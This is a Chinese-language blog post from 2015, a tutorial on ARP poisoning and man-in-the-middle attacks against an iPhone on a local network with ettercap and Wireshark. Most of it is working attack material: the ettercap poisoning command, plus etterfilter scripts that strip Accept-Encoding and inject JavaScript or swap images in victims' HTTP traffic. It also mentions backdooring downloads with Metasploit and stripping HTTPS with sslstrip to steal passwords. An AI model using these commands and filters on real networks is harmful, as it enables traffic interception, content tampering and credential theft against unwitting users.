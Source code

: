 ```yaml
---
layout:     post
title:      ettercap使用小结
date:       2015-11-12 11:40:25
author:     Hsmouc
summary:    用ettercap工具进行ARP毒化和中间人攻击，注入脚本。    
categories: Hacking
thumbnail:  heart
tags:
 - 欢迎来我的博客
---
```

###ettercap简介：
ettercap是一个进行中间人攻击的全面工具套装，它可以嗅探数据和玩一些其他有意思的把戏…… 我从官网介绍上随意翻译的=_=
###一次中间人攻击实例
- 工具： Ettercap Wireshark 
- 攻击者：Mac OS X 10.10.5
- 目标：iPhone （iOS 9.1）
####step1
打开内核ip转发功能，否则会导致被攻击的对象无法上网。在终端里输入
{% highlight c %}
sudo sysctl net.inet.ip.forwarding=1
{% endhighlight %}
终端提示
{% highlight c %}
net.inet.ip.forwarding: 0 -> 1
{% endhighlight %}
这样就可以开始进行ARP毒化和中间人攻击了。(注意：这是Mac OS X系统的命令，Linux系统请自行Google)
####step2
#####嗅探   
ettercap提供了四种用户界面
{% highlight c %}
Text Only – ‘-T’ option
Curses – ‘-C’ option
GTK – ‘-G’ option
Daemon – ‘-D’ option
{% endhighlight %}
我使用的是命令行模式，感觉它UI做的好丑。    
下面是ARP毒化的指令
{% highlight c %}
sudo ettercap -T -q -i en0 -M ARP:remote /192.168.1.4/ /192.168.1.1/
{% endhighlight %}
T参数是Text Only，q参数是安静模式，M参数表示MITM即中间人攻击。192.168.1.4是iPhone的ip地址，192.168.1.1是路由的ip地址。  
  使用该命令后，攻击开始，按q键结束。同时打开Wireshark即可看到目标访问的所有http链接的明文内容。如下图所示：![](http://ww1.sinaimg.cn/mw690/005WMcFzgw1exyg0unp7oj311t0np479.jpg)
#####使用插件      
在ettercap可以使用自己编写的插件来实现一些功能，当然ettercap也提供了一些插件。在/usr/local/bin/目录下用vim新建.filter文件。   
我们先尝试注入代码让目标浏览网页时弹窗，代码如下：
{% highlight c %}
if (ip.proto == TCP && tcp.dst == 80)
{
    if (search(DATA.data, "Accept-Encoding"))
    {
        replace("Accept-Encoding", "Accept-Rubbish!");
        # note: replacement string is same length as original string
        msg("zapped Accept-Encoding!\n");
    }
}
if (ip.proto == TCP && tcp.src == 80)
{
    replace("<head>", "<head><script type="text/javascript">alert('test');</script>");
    replace("<HEAD>", "<HEAD><script type="text/javascript">alert('test');</script>");
    msg("Injecting OK!!\n");
}
{% endhighlight %}
接着在终端中输入：
{% highlight c %}
etterfilter window.filter -o windowtest3.ef
{% endhighlight %}
简单解释下，可以输入etterfilter -h来获得帮助，o参数是输出文件名。   
效果如下图所示：
![](http://ww1.sinaimg.cn/mw690/005WMcFzgw1exyg212emhj30hs0vkah0.jpg)
再尝试下替换网页的图片试试，还是和上面一样直接上源码；
{% highlight c %}
if (ip.proto == TCP && tcp.dst == 80) {
   if (search(DATA.data, "Accept-Encoding")) {
      replace("Accept-Encoding", "Accept-Rubbish!");
      msg("zapped Accept-Encoding!\n");
   }
}
if (ip.proto == TCP && tcp.src == 80) {
   replace("img src=", "img src=\"http://img5.duitang.com/uploads/item/201507/22/20150722212458_YrGtd.jpeg\" ");
   replace("IMG SRC=", "img src=\"http://img5.duitang.com/uploads/item/201507/22/20150722212458_YrGtd.jpeg\" ");
   msg("Filter Ran.\n");
}
{% endhighlight %}
我找了个小埋的图片233，看看效果；
![](http://ww4.sinaimg.cn/mw690/005WMcFzgw1exyg1u3hdsj30hs0vktdi.jpg)
![](http://ww3.sinaimg.cn/mw690/005WMcFzgw1exyg1or9cbj30hs0vk13q.jpg)
![](http://ww2.sinaimg.cn/mw690/005WMcFzgw1exyg10kyknj30hs0vkdv6.jpg)
还可以通过插件来替换对方的下载内容，配合Metasploit生成后门甚至可以完全控制目标计算机。我还没测试过是否能用……
###小结
中间人攻击和中间人毒化利用了ARP(地址解析协议)的固有漏洞，操作简单但是危害极大，原来我一直是主张计算机裸奔党，从来不用杀软。然而对于小白来说，喜欢乱点的同学们，你们真的需要杀毒软件来保护你们的电脑不被入侵。杀毒软件弹个窗请看清楚再关……    
对了，突然想起来https协议就算是用ettercap＋Wireshark也是看不到传输内容的，但是通过sslstrip就可以突破ssl获取密码了，以后有时间再进行测试吧，今天就写到这里。
